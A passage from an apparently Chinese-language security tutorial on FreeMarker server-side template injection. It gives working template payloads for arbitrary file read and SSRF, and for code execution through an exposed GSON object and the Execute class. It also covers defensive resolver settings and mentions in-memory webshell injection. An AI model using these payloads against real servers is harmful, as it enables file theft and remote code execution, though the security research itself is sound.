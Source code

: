 在已知上下文存在 user 对象的情况下，我们可以通过以下POC进行任意文件读取或是SSRF：

```html
<#assign uri=user?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("http://www.baidu.com").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

下面POC中，通过项目实例化的static  GSON对象来达到代码执行的目的：

```html
<#assign classLoader=user?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("com.test.freemarker.ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("calc")}
```

```java
public class ClassExposingGSON {

    public static Gson GSON = new Gson();
}

```



### 4.4. 防护问题 

**2.3.17**版本以后，官方版本提供了三种TemplateClassResolver，分别为 UNRESTRICTED_RESOLVER、SAFER_RESOLVER、ALLOWS_NOTHING_RESOLVER，我们可以通过以下配置来禁止new ObjectConstructor、Execute与JythonRuntime：

```java
 Configuration cfg = new Configuration(Configuration.VERSION_2_3_32);
 cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);
```



`build-in api`并不能随意使用，必须在配置项`api_builtin_enabled`为`true`时才有效，而该配置默认为`false`。

```
cfg.setAPIBuiltinEnabled(true);
```





## 5. 结语

本文通过讲解两个典型的模板引擎的模板注入问题来让大家对这块有所理解，另外，在模板注入具体漏洞利用中我们可以通过加载类字节码的方式来执行我们自己的代码，从而注入内存马。

